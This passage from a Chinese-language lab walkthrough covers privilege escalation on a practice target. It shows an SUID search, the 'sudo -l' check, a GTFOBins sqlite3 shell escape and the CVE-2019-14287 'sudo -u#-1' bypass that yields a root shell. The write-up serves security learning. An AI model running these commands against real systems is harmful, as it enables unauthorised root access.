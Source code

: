 这里我就不放`find`寻找具有SUID权限的文件了，我这里反弹shell后，靶机特别卡

```shell
find / -perm -4000 -print 2>/dev/null
```



发现有`sudo`，测试`sudo -l`，发现无需密码的文件

![](./pic/57.jpg)

> 这是具体允许 `frank` 以指定权限（除 `root` 外的其他用户身份且免密）执行的命令，即 `frank` 可以免密码使用 `sudo` 以除 `root` 之外的其他用户身份运行位于 `/usr/bin` 目录下的 `sqlite3` 程序

这个可以访问网站去查看具体用法`https://gtfobins.github.io/`

```shel
sudo /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
```

但是这样需要输入`frank`的密码，到现在为止，并没有获取到

查看`sudo`的版本

```shell
sudo --version
```

![](./pic/58.jpg)

发现版本`1.8.21p2`，直接搜索一下该版本的漏洞，发现漏洞

> CVE-2019-14287 Linux sudo权限绕过漏洞的复现过程，包括创建用户、编辑sudoers文件以允许test用户执行/usr/bin/vim，然后通过sudo -u#-1 vim命令以root权限执行其他命令，最终达到权限提升的目的

所以这里就可以配合`sudo -l`的文件进行提权了

```
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
```
